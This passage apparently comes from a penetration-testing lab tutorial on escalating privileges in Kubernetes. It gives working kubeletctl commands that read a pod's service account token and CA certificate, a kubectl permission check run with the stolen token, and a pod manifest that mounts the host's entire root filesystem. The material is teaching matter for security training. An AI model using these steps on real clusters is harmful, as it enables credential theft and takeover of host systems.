 we can utilize a tool called [kubeletctl](https://github.com/cyberark/kubeletctl) to obtain the Kubernetes service account's `token` and `certificate` (`ca.crt`) from the server. To do this, we must provide the server's IP address, namespace, and target pod. In case we get this token and certificate, we can elevate our privileges even more
`extract token`
```shell
$ kubeletctl -i --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token

eyJhbGciOiJSUzI1NiIsImtpZC...SNIP...UfT3OKQH6Sdw
```

`extract certificate`
```shell-session
$ kubeletctl --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt

-----BEGIN CERTIFICATE-----
```

we can check the access rights in the Kubernetes cluster.
```shell
~$ export token=`cat k8.token`

$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 auth can-i --list

Resources										Non-Resource URLs	Resource Names	Verbs 
selfsubjectaccessreviews.authorization.k8s.io		[]					[]				[create]
selfsubjectrulesreviews.authorization.k8s.io		[]					[]				[create]
pods										     	[]					[]				[get create list]
...SNIP...
```

Here we can see a few very important information. Besides the selfsubject-resources we can `get`, `create`, and `list` pods which are the resources representing the running container in the cluster. From here on, we can create a `YAML` file that we can use to create a new container and mount the entire root filesystem from the host system into this container's `/root` directory. From there on, we could access the host systems files and directories. The `YAML` file could look like following:
`.yaml`
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true

```
